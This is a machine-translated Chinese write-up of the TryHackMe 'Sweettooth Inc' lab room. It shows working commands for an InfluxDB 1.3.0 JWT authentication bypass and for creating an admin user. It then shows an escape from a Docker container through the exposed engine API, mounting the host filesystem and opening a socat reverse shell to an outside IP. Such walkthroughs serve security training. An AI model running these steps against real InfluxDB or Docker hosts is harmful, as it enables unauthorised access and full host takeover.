





# TryHackMe - Sweettooth 公司(非端口转发方法)

> 原文：<https://infosecwriteups.com/tryhackme-sweettooth-inc-non-port-forward-method-a658d587c481?source=collection_archive---------2----------------------->


大家好，这将是关于 [TryHackMe](https://tryhackme.com/) 的 [Sweettooth Inc .房间](https://tryhackme.com/room/sweettoothinc)的报道。在这个房间中，我们必须首先列举一个易受攻击的数据库，在这个数据库中，我们必须创建一个 JWT 令牌来登录该数据库，并在那里获取系统的 SSH 凭据。一旦我们在系统上站稳脚跟，我们看到它是一个 docker 容器，带有一个公开的 Docker 引擎 API。我们可以用它来突破 docker 容器以访问主机。

从 nmap 扫描开始:

```
# Nmap 7.91 scan initiated Fri Jul 23 18:32:34 2021 as: nmap -sT -p- -sVC -oN services.nmap --open -n -v -T4 10.10.219.28
Nmap scan report for 10.10.219.28
Host is up (0.19s latency).
Not shown: 59487 closed ports, 6044 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE VERSION
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34421/udp6  status
|   100024  1          40752/tcp   status
|   100024  1          43744/udp   status
|_  100024  1          45271/tcp6  status
2222/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 b0:ce:c9:21:65:89:94:52:76:48:ce:d8:c8:fc:d4:ec (DSA)
|   2048 7e:86:88:fe:42:4e:94:48:0a:aa:da:ab:34:61:3c:6e (RSA)
|   256 04:1c:82:f6:a6:74:53:c9:c4:6f:25:37:4c:bf:8b:a8 (ECDSA)
|_  256 49:4b:dc:e6:04:07:b6:d5:ab:c0:b0:a3:42:8e:87:b5 (ED25519)
8086/tcp  open  http    InfluxDB http admin 1.3.0
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
40752/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

需要注意的要点:

*   端口 2222: SSH (OpenSSH 6.7p1)
*   端口 8086: InfluxDB http admin 1.3.0
*   设备可能是 Linux 系统

通过快速的谷歌搜索，我们得知在 InfluxDB:[https://github.com/influxdata/influxdb/issues/12927](https://github.com/influxdata/influxdb/issues/12927)中存在一个密码绕过漏洞

这里有一篇文章证实了我们的 InfluxDB 版本 1.3.0 确实存在漏洞，并解释了如何利用它:[https://www . komodosec . com/post/when-all-else-fails-find-a-0-day](https://www.komodosec.com/post/when-all-else-fails-find-a-0-day)

要利用这一点，我们首先需要一个有效的用户名。这可以通过简单地访问 web 浏览器上的`/debug/requests`端点来完成。该 URL 类似于下面的内容:`http://10.10.219.28:8086/debug/requests`



找到数据库用户名

数据库用户名:o5yY6yya

现在，为了制作 JWT 令牌，我们需要设置以下参数:

*   用户名:o5yY6yya
*   有效截止日期
*   空密钥

它应该是这样的:



使用 jwt.io 创建我们的令牌

InfluxDB API 文档很好地解释了如何使用它:

*   [https://docs . influx data . com/influx db/v 1.8/guides/query _ data/](https://docs.influxdata.com/influxdb/v1.8/guides/query_data/)
*   [https://docs . influx data . com/influx db/v 1.8/administration/authentic ation _ and _ authorization/](https://docs.influxdata.com/influxdb/v1.8/administration/authentication_and_authorization/)

以下是一些有助于完成任务的查询:

*   显示数据库:(为了更好的可读性，我使用 [jq](https://github.com/stedolan/jq) 解析 json)

```
curl -G 'http://10.10.219.28:8086/query?' --data-urlencode 'q=SHOW DATABASES;'  -H 'Authorization: Bearer <jwt token here>' | jq
```

*   要显示所选数据库中的表(在 InfluxDB 中表被称为“series ”):

```
curl -G 'http://10.10.219.28:8086/query?' --data-urlencode "db=mixer" --data-urlencode 'q=SHOW SERIES'  -H 'Authorization: Bearer <jwt token here>' | jq
```

*   要显示系列的内容:

```
curl -G 'http://10.10.219.28:8086/query?' --data-urlencode "db=tanks" --data-urlencode 'q=SELECT * FROM water_tank'  -H 'Authorization: Bearer <jwt token here>' | jq
```

你也可以创建一个特权账户，然后不用走 curl 的路，只需使用[流入 CLI](https://docs.influxdata.com/influxdb/v1.8/tools/shell/) 工具。要创建特权帐户，我们需要指定设置了“所有特权”特权的用户名和密码。

```
curl -X POST '[http://10.10.219.28:8086/query?'](http://10.10.219.28:8086/query?') --data-urlencode "q=CREATE USER xplo1t with PASSWORD 'xplo1t' with ALL PRIVILEGES"  -H 'Authorization: Bearer <jwt token here>'
```

在数据库内部，我们可以获得 SSH 凭证



现在唯一要做的就是登录:)

SSH 使用这些凭证登录。通过一些枚举，我们看到我们在一个 docker 容器中。在根目录中，有两个我们可能感兴趣的可疑文件:

*   entrypoint.sh
*   initializeandquery.sh

在查看文件之后,‘initializeandquery . sh’文件给出了一个提示，即端口 8080 正被用于查询 docker 容器。



检查 initializeandquery.sh 的底部

如果你以前没有用过这个，文档可以帮你:【https://docs.docker.com/engine/api/v1.38/。

让我们看看有哪些容器:

```
curl -X GET [http://localhost:8080/containers/json](http://localhost:8080/containers/json)
```

从这个命令的输出中，我们得到图像名为‘sweettoothinc’。

让我们尝试添加我们自己的图像文件。
我制作了一个 json 映像(命名为 image.json ),配置如下:

```
{
 "Image":"sweettoothinc",
 "cmd":["/bin/bash"],
 "Binds": [
  "/:/mnt:rw"
 ]
}
```

当我们启动这个容器时，`/bin/bash`运行，主机系统的整个文件系统将被挂载到`/mnt`目录中。因此，我们可以完全读/写访问主机上的所有文件。

上传容器:

```
curl -X POST -H "Content-Type: application/json" -d [@image](http://twitter.com/image).json [http://localhost:8080/containers/create](http://localhost:8080/containers/create)Output:
{"Id":"2b5918d16a56fb462b32bcfd72924d925d9d5b31e7cee75af226432d2e54d7c9","Warnings":null}
```

记下我们新容器的容器 ID

> 集装箱编号:2b 5918d 16 a 56 FB 462 b 32 bcfd 72924d 925d 9 D5 b 31 e 7 ce 75 af 226432 D2 e 54d 7 c 9

让我们试着启动它:

```
curl -X POST  [http://localhost:8080/containers/2b5918d16a56fb462b32bcfd72924d925d9d5b31e7cee75af226432d2e54d7c9/start](http://localhost:8080/containers/2b5918d16a56fb462b32bcfd72924d925d9d5b31e7cee75af226432d2e54d7c9/start) Output: No output. Means it started successfully
```

因为我们在这个容器中拥有主机的整个文件系统，所以我们也拥有它们。要获得反向 shell，我们需要创建一个 exec 实例。它允许我们在运行的容器中执行命令。

使用我们之前获得的容器 ID，用 socat 反向 shell 创建一个新的 exec 实例:

```
curl -i -s -X POST -H "Content-Type: application/json" --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["socat" ,"TCP:10.17.10.220:1337", "EXEC:sh"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' [http://localhost:8080/containers/](http://localhost:8080/containers/a0088a8236d254b0296eac76565695190682b98c323709f65c0958fdd42eda19/exec)2b5918d16a56fb462b32bcfd72924d925d9d5b31e7cee75af226432d2e54d7c9[/exec](http://localhost:8080/containers/a0088a8236d254b0296eac76565695190682b98c323709f65c0958fdd42eda19/exec)Output:
{"Id":"da3d7220e76cf0c291311f35773c3e12283ff6929e21bc81b0567cd3eb43ce48"}
```

> exec ID:da3d 7220 e 76 cf 0 c 291311 f 35773 C3 e 12283 ff 6929 e 21 BC 81 b 0567 CD 3 EB 43 ce 48

在本地机器的同一个 1337 端口上设置一个监听器。并启动 exec 实例:

```
curl -i -s -X POST -H 'Content-Type: application/json' --data-binary '{"Detach": false,"Tty": false}' http://localhost:8080/exec/da3d7220e76cf0c291311f35773c3e12283ff6929e21bc81b0567cd3eb43ce48/start
```

在监听器上，应该有一个 shell 在等着你



旗帜

如果你想了解更多，这里有一篇文章:[https://dejandayoff.com/the-danger-of-exposing-docker.sock/](https://dejandayoff.com/the-danger-of-exposing-docker.sock/)。谢谢你读到这里。下次见。